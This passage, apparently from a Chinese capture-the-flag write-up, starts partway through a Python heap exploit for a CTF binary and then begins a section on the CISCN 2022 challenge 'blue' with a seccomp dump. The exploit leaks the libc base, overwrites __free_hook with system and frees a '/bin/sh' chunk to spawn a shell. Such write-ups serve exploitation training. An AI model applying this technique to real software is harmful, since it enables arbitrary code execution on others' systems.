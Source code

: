 ```plain
    add(i,0x80,'a')

add(7,0x80,'a')
add(8,0x80,'a')
add(9,0x20,'b')

for i in range(7):
    delete(i) 

delete(8)
show(8)
libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x1ecbe0
__free_hook=libc_base+libc.sym["__free_hook"]
system_addr=libc_base+libc.sym["system"]
leak("libc_base ",libc_base)

delete(7)

add(10,0x80,'a')

delete(8) # tcahcebin unsortedbin

payload='a'*0x80+p64(0)+p64(0x91)+p64(__free_hook)
add(11,0xa0,payload)

add(12,0x80,'/bin/sh\x00')
add(13,0x80,p64(system_addr))
delete(12)
'''
'''
#duan()
p.interactive()
```

## CISCN 2022 华东北分区赛 blue

### ida

```plain
line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x05 0xc000003e  if (A != ARCH_X86_64) goto 0007
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x02 0xffffffff  if (A != 0xffffffff) goto 0007
 0005: 0x15 0x01 0x00 0x0000003b  if (A == execve) goto 0007
 0006: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0007: 0x06 0x00 0x00 0x00000000  return KILL
```

